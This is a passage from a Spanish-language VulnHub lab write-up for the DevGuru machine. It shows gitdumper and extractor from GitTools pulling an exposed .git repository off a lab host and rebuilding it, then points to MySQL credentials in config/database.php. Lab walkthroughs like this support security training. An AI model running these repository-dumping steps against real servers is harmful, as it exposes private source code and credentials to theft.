 
Podemos utilizar la herramienta `gitdumper` que podemos encontrar en [GitTools](https://github.com/internetwache/GitTools/blob/master/Dumper/gitdumper.sh) para descargarnos el repositorio almacenado

```ruby
./gitdumper.sh http://192.168.1.140/.git/ /home/yorch/Labs/VulnHub/Devguru1/content/git
.
.
.
```

una vez descargado utilizaremos la herramienta `extractor` del mismo respoitorio para recomponer la estructura de carpetas del proyecto

```ruby
./extractor.sh git/ fullproject/
.
.
.
```

una vez finalizada la operación tendremos un directorio `/fullproject` con el repositorio clonado

```java
❯ ls -la
drwxr-xr-x root root 244 B  Wed Nov 23 11:46:43 2022  .
drwxr-xr-x root root  84 B  Wed Nov 23 11:45:55 2022  ..
drwxr-xr-x root root  38 B  Wed Nov 23 11:45:56 2022  bootstrap
drwxr-xr-x root root 294 B  Wed Nov 23 11:45:56 2022  config
drwxr-xr-x root root  32 B  Wed Nov 23 11:46:15 2022  modules
drwxr-xr-x root root  14 B  Wed Nov 23 11:46:39 2022  plugins
drwxr-xr-x root root  62 B  Wed Nov 23 11:46:43 2022  storage
drwxr-xr-x root root   8 B  Wed Nov 23 11:46:43 2022  themes
.rw-r--r-- root root 413 B  Wed Nov 23 11:45:55 2022  .gitignore
.rw-r--r-- root root 1.6 KB Wed Nov 23 11:45:55 2022  .htaccess
.rw-r--r-- root root 354 KB Wed Nov 23 11:45:56 2022  adminer.php
.rw-r--r-- root root 1.6 KB Wed Nov 23 11:45:56 2022  artisan
.rw-r--r-- root root 167 B  Wed Nov 23 11:45:55 2022  commit-meta.txt
.rw-r--r-- root root 1.1 KB Wed Nov 23 11:45:56 2022  index.php
.rw-r--r-- root root 1.5 KB Wed Nov 23 11:45:55 2022  README.md
.rw-r--r-- root root 551 B  Wed Nov 23 11:46:39 2022  server.php

    /home/y/L/Vu/De/c/fullproject/0-7de9115700c5656c670b34987c6fbffd39d90cf2  硫  ✔  
```

Accediendo al directorio `config` y examinando el archivo `database.php` encontramos unas credenciales para mysql


<img src="/assets/VH/DevGuru/creds.png">
